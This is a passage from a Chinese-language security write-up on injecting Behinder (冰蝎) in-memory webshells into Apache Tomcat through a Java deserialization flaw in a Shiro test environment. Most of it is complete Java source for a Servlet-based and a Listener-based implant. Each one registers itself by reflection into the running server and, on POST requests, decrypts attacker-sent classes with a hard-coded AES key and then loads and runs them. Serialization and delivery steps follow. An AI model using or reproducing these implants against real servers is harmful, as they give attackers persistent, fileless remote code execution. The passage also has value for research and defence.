

当普通马都能注入，那就继续注入冰蝎马（这里说一下，为什么我对冰蝎情有独钟😂，普通马在url中可以执行其实也行，主要是客户端webshell管理工具用起来真的很爽😂)

### 0x2 注入Servlet 冰歇马
同[Tomcat内存马无文件攻击](https://www.yuque.com/da-labs/secnotes/dbyh6g)中的Servlet注入冰歇马一样，同样通过在service方法中添加冰蝎马

```java
@Override
public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
    try {
        System.out.println("do service");
        // 获取request和response对象
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse) servletResponse;
        HttpSession session = request.getSession();
        //create pageContext
        HashMap pageContext = new HashMap();
        pageContext.put("request", request);
        pageContext.put("response", response);
        pageContext.put("session", session);


        if (request.getMethod().equals("POST")) {
            String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            //revision BehinderFilter
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);
            return;
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```
完整代码如下
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.coyote.Request;
import org.apache.coyote.RequestInfo;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.List;
import java.util.Scanner;


public class Behinder extends AbstractTranslet implements Servlet {
    private final static String servletUrlPattern = "/*";
    private final static String servletName = "test";

    public Behinder() {
    }

    static {
        HttpServletRequest request = getRequest();
        ServletContext servletContext = request.getSession().getServletContext();
        if (servletContext == null) {
            System.out.println("未获取到servletContext");
        } else {
            try {
                Field appctx = servletContext.getClass().getDeclaredField("context");
                appctx.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
                Field stdctx = applicationContext.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
                Servlet demo = new Behinder();
                org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();
                //设置Servlet名等
                demoWrapper.setName(servletName);
                demoWrapper.setLoadOnStartup(1);
                demoWrapper.setServlet(demo);
                demoWrapper.setServletClass(demo.getClass().getName());
                standardContext.addChild(demoWrapper);
                //设置ServletMap
                standardContext.addServletMapping(servletUrlPattern, servletName);
                System.out.println("success");
            } catch (Exception e) {
                try {
                    java.lang.Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
                } catch (Exception a) {
                    a.printStackTrace();
                }
                System.out.println("失败了！草");
                e.printStackTrace();
            }

        }
    }

    public static HttpServletRequest getRequest() {
        try {
            boolean flag = false;
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (int i = 0; i < threads.length; i++) {
                Thread thread = threads[i];
                if (thread != null) {
                    String threadName = thread.getName();
                    if (!threadName.contains("exec") && threadName.contains("http")) {
                        Object target = getField(thread, "target");
                        Object global = null;
                        if (target instanceof Runnable) {
                            // 需要遍历其中的 this$0/handler/global
                            // 需要进行异常捕获，因为存在找不到的情况
                            try {
                                global = getField(getField(getField(target, "this$0"), "handler"), "global");
                            } catch (NoSuchFieldException fieldException) {
                                fieldException.printStackTrace();
                            }
                        }
                        // 如果成功找到了 我们的 global ，我们就从里面获取我们的 processors
                        if (global != null) {
                            List processors = (List) getField(global, "processors");
                            for (i = 0; i < processors.size(); i++) {
                                RequestInfo requestInfo = (RequestInfo) processors.get(i);
                                if (requestInfo != null) {
                                    Request tempRequest = (Request) getField(requestInfo, "req");
                                    org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                    return request;

                                }
                            }
                        }
                    }
                }
                if (flag) {
                    break;
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return null;
    }

    public static Object getField(Object obj, String fieldName) throws Exception {
        Field f0 = null;
        Class clas = obj.getClass();

        while (clas != Object.class) {
            try {
                f0 = clas.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clas = clas.getSuperclass();
            }
        }

        if (f0 != null) {
            f0.setAccessible(true);
            return f0.get(obj);
        } else {
            throw new NoSuchFieldException(fieldName);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {
        System.out.println("do init");
    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        try {
            System.out.println("do service");
            // 获取request和response对象
            HttpServletRequest request = (HttpServletRequest) servletRequest;
            HttpServletResponse response = (HttpServletResponse) servletResponse;
            HttpSession session = request.getSession();
            //create pageContext
            HashMap pageContext = new HashMap();
            pageContext.put("request", request);
            pageContext.put("response", response);
            pageContext.put("session", session);


            if (request.getMethod().equals("POST")) {
                String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
                session.putValue("u", k);
                Cipher c = Cipher.getInstance("AES");
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                //revision BehinderFilter
                Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                method.setAccessible(true);
                byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
                Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
                evilclass.newInstance().equals(pageContext);
                return;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
}

```
同上步骤，在data参数处，反序列化以上代码生成的序列化文件

首先生成cookie，查看是否正常



再将Servlet内存冰歇马序列化，最后再通过data参数传输






### 0x3 注入Listener冰歇内存马
同[Tomcat内存马无文件攻击](https://www.yuque.com/da-labs/secnotes/dbyh6g)中的Listener注入冰蝎马一样

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.coyote.Request;
import org.apache.coyote.RequestInfo;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.List;

public class BehinderListener extends AbstractTranslet implements ServletRequestListener {
    public BehinderListener() {
    }

    static {
        HttpServletRequest request = getRequest();
        ServletContext servletContext = request.getSession().getServletContext();
        if (servletContext == null) {
            System.out.println("未获取到servletContext");
        } else {
            try {
                Field appctx = servletContext.getClass().getDeclaredField("context");
                appctx.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
                Field stdctx = applicationContext.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
                ServletRequestListener listener = new BehinderListener();
                standardContext.addApplicationEventListener(listener);
            } catch (Exception e) {
                try {
                    java.lang.Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
                } catch (Exception a) {
                    a.printStackTrace();
                }
                System.out.println("失败了！草");
                e.printStackTrace();
            }

        }
    }

    public static HttpServletRequest getRequest() {
        try {
            boolean flag = false;
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (int i = 0; i < threads.length; i++) {
                Thread thread = threads[i];
                if (thread != null) {
                    String threadName = thread.getName();
                    if (!threadName.contains("exec") && threadName.contains("http")) {
                        Object target = getField(thread, "target");
                        Object global = null;
                        if (target instanceof Runnable) {
                            // 需要遍历其中的 this$0/handler/global
                            // 需要进行异常捕获，因为存在找不到的情况
                            try {
                                global = getField(getField(getField(target, "this$0"), "handler"), "global");
                            } catch (NoSuchFieldException fieldException) {
                                fieldException.printStackTrace();
                            }
                        }
                        // 如果成功找到了 我们的 global ，我们就从里面获取我们的 processors
                        if (global != null) {
                            List processors = (List) getField(global, "processors");
                            for (i = 0; i < processors.size(); i++) {
                                RequestInfo requestInfo = (RequestInfo) processors.get(i);
                                if (requestInfo != null) {
                                    Request tempRequest = (Request) getField(requestInfo, "req");
                                    org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                    return request;
                                }
                            }
                        }
                    }
                }
                if (flag) {
                    break;
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return null;
    }

    public static Object getField(Object obj, String fieldName) throws Exception {
        Field f0 = null;
        Class clas = obj.getClass();

        while (clas != Object.class) {
            try {
                f0 = clas.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clas = clas.getSuperclass();
            }
        }

        if (f0 != null) {
            f0.setAccessible(true);
            return f0.get(obj);
        } else {
            throw new NoSuchFieldException(fieldName);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }


    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        try{
            System.out.println("do Linstener");
            HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
            Field requestF = req.getClass().getDeclaredField("request");
            requestF.setAccessible(true);
            org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request)requestF.get(req);
            HttpServletResponse response = request.getResponse();
            HttpSession session = request.getSession();
            //create pageContext
            HashMap pageContext = new HashMap();
            pageContext.put("request", request);
            pageContext.put("response", response);
            pageContext.put("session", session);
            if (request.getMethod().equals("POST")) {
                String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
                session.putValue("u", k);
                Cipher c = Cipher.getInstance("AES");
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                //revision BehinderFilter
                Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                method.setAccessible(true);
                byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
                Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
                evilclass.newInstance().equals(pageContext);
                return;
            }

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```




## 提出问题
在[天下大木头](https://github.com/KpLi0rn/ShiroVulnEnv)的github中，提供的payload-TomcatEcho.ser、TomcatEcho.java中，我在本地编译生成TomcatEcho.class，以及TomcatEcho.ser文件大小都超过了MaxHTTPHeaderSize，我自己编译的文件都无法反序列化，但是[天下大木头](https://github.com/KpLi0rn/ShiroVulnEnv)提供的TomcatEcho.ser就可以注入成功，该环境下的tomcatHeader.ser、tomcatInject.ser无法使用，报错为文章开头的未能转化webappclassloaderbase
## 参考链接

[fnmsd-Java中间件通用回显方法的问题及处理](https://blog.csdn.net/fnmsd/article/details/106890242?spm=1001.2014.3001.5501)

[fnmsd-通用版shiro回显](https://gist.github.com/fnmsd/4d9ed529ceb6c2a464f75c379dadd3a8)

[天下大木头-ShiroVulnEnv](https://github.com/KpLi0rn/ShiroVulnEnv)

